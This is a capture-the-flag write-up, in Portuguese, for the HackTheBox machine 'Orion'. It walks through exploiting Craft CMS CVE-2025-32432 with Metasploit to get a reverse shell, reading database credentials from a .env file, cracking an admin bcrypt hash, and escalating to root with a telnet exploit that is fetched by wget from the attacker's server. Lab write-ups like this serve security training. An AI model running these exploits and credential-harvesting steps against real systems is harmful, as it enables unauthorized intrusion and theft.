


# HTB-orion

Comecei fazendo um portscan simples com nmap 

```bash
justsomeone@underground ~   nmap -sV -sC -T3 -Pn -oA nmap/orion.htb 10.129.38.86

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

enumerando as portas vi que serviço web rodando na 80, entrando nela vi que não tinha nada demais alem de algumas textos sem utilidade, então decidi fazer um fuzzing de diretorios com feroxbuster esultado o único interessante foi o /admin/portal


o feroxbuster me retornou um /admin/login que é aparenta ter algo.

```bash

302      GET        0l        0w        0c http://orion.htb/admin => http://orion.htb/admin/login
302      GET        0l        0w        0c http://orion.htb/logout => http://orion.htb/
200      GET      178l      431w     5420c http://orion.htb/assets/js/main.js
200      GET      929l     1619w    17370c http://orion.htb/assets/css/style.css
200      GET      385l     1182w    12272c http://orion.htb/
301      GET        7l       12w      178c http://orion.htb/assets => http://orion.htb/assets/
301      GET        7l       12w      178c http://orion.htb/assets/images => http://orion.htb/assets/images/
301      GET        7l       12w      178c http://orion.htb/assets/js => http://orion.htb/assets/js/
301      GET        7l       12w      178c http://orion.htb/assets/css => http://orion.htb/assets/css/

```

abrindo o diretorio /admin/login temos 2 informações bem uteis, a primeira é o nome do cms rodando e a segunda sua exata versão, antes de qualquer coisa tentei logar usando credenciais padrões mas nao tive resultados então optei por pesquisar um exploit pro cms



e aqui nos retornou que existe um exploit pra uma falha de rce no cms usado.



para explorar essa falha optei por algo que não faço com tanta frequencia que foi usar o metasploit, sempre fui do tipo de pesquisar o exploit no Google e baixar do exploitdb ou outra fonte, mas recentemente tenho optado por ele

```bash
msf > search cve:2025-32432
msf > use 0

msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set lhost 10.10.14.179
lhost => 10.10.14.179
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set lport 1338
lport => 1338
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set rhost orion.htb
rhost => orion.htb
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > run
[*] Started reverse TCP handler on 10.10.14.179:1338
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (45739 bytes) to 10.129.38.86
[*] Meterpreter session 1 opened (10.10.14.179:1338 -> 10.129.38.86:54340) at 2026-06-25 16:45:25 -0400

```

rapidamente consegui pegar shell na maquina 

```bash
meterpreter > ls
Listing: /var/www/html/craft/web
================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100664/rw-rw-r--  283   fil   2025-11-18 12:08:05 -0500  .htaccess
040755/rwxr-xr-x  4096  dir   2026-03-06 07:12:57 -0500  assets
040775/rwxrwxr-x  4096  dir   2026-06-25 12:34:24 -0400  cpresources
100644/rw-r--r--  9689  fil   2026-03-06 07:12:57 -0500  index.html
100664/rw-rw-r--  258   fil   2025-11-18 12:08:05 -0500  index.php

```

tentei coletar algumas informações extras da maquina na busca de algo diferente, mas nada demais então parti por analisar os arquivos 

```bash

meterpreter > sysinfo
Computer        : orion
OS              : Linux orion 5.15.0-177-generic #187-Ubuntu SMP Sat Apr 11 22:54:33 UTC 2026 x86_64
Architecture    : x64
System Language : en_US_POSIX
Meterpreter     : php/linux
```

apos uma analise dos arquivos achei o .env com credenciais do banco de dados mysql da aplicação

```bash

www-data@orion:~/html/craft$ cat .env
cat .env
# Read about configuration, here:
# https://craftcms.com/docs/5.x/configure.html

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--67912ad2-1f1b-4993-bfec-e64daa5c23ff

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=dev

# General settings
CRAFT_SECURITY_KEY=RRS86F6i2JQKdC6kfEI7frVxA47WVMx8
CRAFT_DEV_MODE=true
CRAFT_ALLOW_ADMIN_CHANGES=true
CRAFT_DISALLOW_ROBOTS=true
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=
PRIMARY_SITE_URL=http://orion.htb/
```

assim que loguei, comecei a enumerar as tabelas em busca de novas informações nesse caso novas credenciais de acesso, com isso consegui a senha do user adam em formato de hash bcrypt 

```bash
www-data@orion:~/html/craft$ mysql -u root -p orion
mysql -u root -p orion
Enter password: SuperSecureCraft123Pass!

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 63703
Server version: 10.6.23-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [orion]> 

```

```bash
MariaDB [orion]> SHOW DATABASES;
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| orion              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [orion]> SHOW TABLES;
SHOW TABLES;
+----------------------------+
| Tables_in_orion            |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
| assets_sites               |
| authenticator              |
| categories                 |
| categorygroups             |
| categorygroups_sites       |
| changedattributes          |
| changedfields              |
| craftidtokens              |
| deprecationerrors          |
| drafts                     |
| elementactivity            |
| elements                   |
| elements_bulkops           |
| elements_owners            |
| elements_sites             |
| entries                    |
| entries_authors            |
| entrytypes                 |
| fieldlayouts               |
| fields                     |
| globalsets                 |
| gqlschemas                 |
| gqltokens                  |
| imagetransformindex        |
| imagetransforms            |
| info                       |
| migrations                 |
| plugins                    |
| projectconfig              |
| queue                      |
| recoverycodes              |
| relations                  |
| resourcepaths              |
| revisions                  |
| searchindex                |
| sections                   |
| sections_entrytypes        |
| sections_sites             |
| sequences                  |
| sessions                   |
| shunnedmessages            |
| sitegroups                 |
| sites                      |
| sso_identities             |
| structureelements          |
| structures                 |
| systemmessages             |
| taggroups                  |
| tags                       |
| tokens                     |
| usergroups                 |
| usergroups_users           |
| userpermissions            |
| userpermissions_usergroups |
| userpermissions_users      |
| userpreferences            |
| users                      |
| volumefolders              |
| volumes                    |
| webauthn                   |
| widgets                    |
+----------------------------+
66 rows in set (0.001 sec)

MariaDB [orion]> select * from users;
select * from users;
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------+-----------+----------+----------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | affiliatedSiteId | active | pending | locked | suspended | admin | username | fullName | firstName | lastName | email          | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------+-----------+----------+----------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |             NULL |      1 |       0 |      0 |         0 |     1 | admin    | NULL     | NULL      | NULL     | adam@orion.htb | $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS | 2026-03-12 11:25:04 | NULL               | 2026-06-25 16:39:10     |                 1 | 2026-06-25 16:39:10  | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2026-03-12 11:24:51    | 2026-03-06 11:24:45 | 2026-06-25 16:39:10 |
+----+---------+------------------+--------+---------+--------+-----------+-------+----------+----------+-----------+----------+----------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
1 row in set (0.001 sec)
```

 `hashcat -m 3200 -a 0 '$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS' /usr/share/wordlists/rockyou.txt`

```c

$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS:darkangel

Session..........: hashcat
Status...........: Cracked
```

```c
~ 〉 ssh adam@orion.htb
The authenticity of host 'orion.htb (10.129.81.121)' can't be established.
ED25519 key fingerprint is: SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'orion.htb' (ED25519) to the list of known hosts.
adam@orion.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-177-generic x86_64)

adam@orion:~$
```

```c
adam@orion:~$ cat user.txt
<FLAG>
```

uma caracteristica chamativa foi esse telnet rodando localmente, após alguma pesquisas descobrir uma possibilidade de haver uma vulnerabilidade de lpe utilizando dele como vetor (CVE-2026-24061) [https://www.exploit-db.com/exploits/52524](https://www.exploit-db.com/exploits/52524) 

```bash

ss -tlnp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*    users:(("nginx",pid=1095,fd=6),("nginx",pid=1091,fd=6))
LISTEN 0      10         127.0.0.1:23        0.0.0.0:*
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*
LISTEN 0      128             [::]:22           [::]:*
```

então fiz o basico, baixei o exploit, movi usando um server http…

```c
~/Downloads 〉 python3 -m http.server 6767
Serving HTTP on 0.0.0.0 port 6767 (http://0.0.0.0:6767/) ...
```

seguida executei especificando a porta do telnet e o endereço de loopback da maquina., e rapídamente o exploit nos liberou uma shell de root onde li a flag e finalizei a maquina. 

```c
adam@orion:/tmp$ wget http://10.10.17.17:6767/52524.py
--2026-08-07 10:43:07--  http://10.10.17.17:6767/52524.py
Connecting to 10.10.17.17:6767... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5539 (5.4K) [text/x-python]
Saving to: ‘52524.py’

52524.py                          100%[===========================================================>]   5.41K  --.-KB/s    in 0.1s

2026-08-07 10:43:08 (39.9 KB/s) - ‘52524.py’ saved [5539/5539]

adam@orion:/tmp$ python3 52524.py -p 23 127.0.0.1
[*] Connected to 127.0.0.1:23
[*] Sending payload: -f root
[*] Interactive session started. Type commands below.

root@orion:~# cat /root/root.txt
<FLAG>
```


